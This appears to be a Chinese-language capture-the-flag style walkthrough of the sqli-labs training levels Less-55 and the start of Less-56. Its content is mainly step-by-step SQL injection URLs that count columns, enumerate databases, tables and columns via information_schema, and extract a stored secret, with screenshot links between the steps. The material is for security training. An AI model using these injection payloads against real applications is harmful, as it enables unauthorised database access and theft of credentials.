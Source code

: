 **判断列数**<br />http://www.web.com/sql/Less-55/?id=1) order by 3--+<br />为4是返回错误，为3时返回正确，说明为3列<br />![](https://img-blog.csdnimg.cn/20200728092220224.png#crop=0&crop=0&crop=1&crop=1&id=GqYWn&originHeight=185&originWidth=305&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询当前数据库和所有数据库**<br />http://www.web.com/sql/Less-55/?id=-1) union select 1,database(),group_concat(schema_name) from information_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200728092341474.png#crop=0&crop=0&crop=1&crop=1&id=rg1G0&originHeight=97&originWidth=843&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询所有表**<br />http://www.web.com/sql/Less-55/?id=-1) union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema='challenges'--+<br />![](https://img-blog.csdnimg.cn/20200728092445106.png#crop=0&crop=0&crop=1&crop=1&id=Hzzut&originHeight=185&originWidth=310&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询字段**<br />http://www.web.com/sql/Less-55/?id=-1) union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='jvvcry5xdu'--+<br />![](https://img-blog.csdnimg.cn/20200728092603586.png#crop=0&crop=0&crop=1&crop=1&id=tXNd9&originHeight=170&originWidth=349&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询账户和密码**<br />http://www.web.com/sql/Less-55/?id=-1) union select 1,database(),group_concat(concat_ws('~',sessid,secret_SMO0)) from challenges.jvvcry5xdu--+<br />![](https://img-blog.csdnimg.cn/20200728092819666.png#crop=0&crop=0&crop=1&crop=1&id=t4IyC&originHeight=184&originWidth=669&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将得到的密码输入到下面的方框中进行验证**<br />![](https://img-blog.csdnimg.cn/20200728092846463.png#crop=0&crop=0&crop=1&crop=1&id=srAo8&originHeight=44&originWidth=419&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**成功**<br />![](https://img-blog.csdnimg.cn/20200728092859621.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=gLK0j&originHeight=230&originWidth=785&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# Sqli-labs-Less-56
![](https://img-blog.csdnimg.cn/2020072809304782.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Qv9RM&originHeight=483&originWidth=1124&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**本关对输入次数的限制为14次**

**查找注入点**<br />尝试了5次，找到注入点<br />http://www.web.com/sql/Less-56/?id=1')--+<br />![](https://img-blog.csdnimg.cn/20200728093454245.png#crop=0&crop=0&crop=1&crop=1&id=fcerU&originHeight=190&originWidth=319&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库和所有数据库**<br />http://www.web.com/sql/Less-56/?id=-1') union select 1,database(),group_concat(schema_name) from information_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200728093703764.png#crop=0&crop=0&crop=1&crop=1&id=qhWt0&originHeight=80&originWidth=826&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />http://www.web.com/sql/Less-56/?id=-1') union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema='challenges'--+<br />![](https://img-blog.csdnimg.cn/20200728093818819.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=wx7Zy&originHeight=201&originWidth=307&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
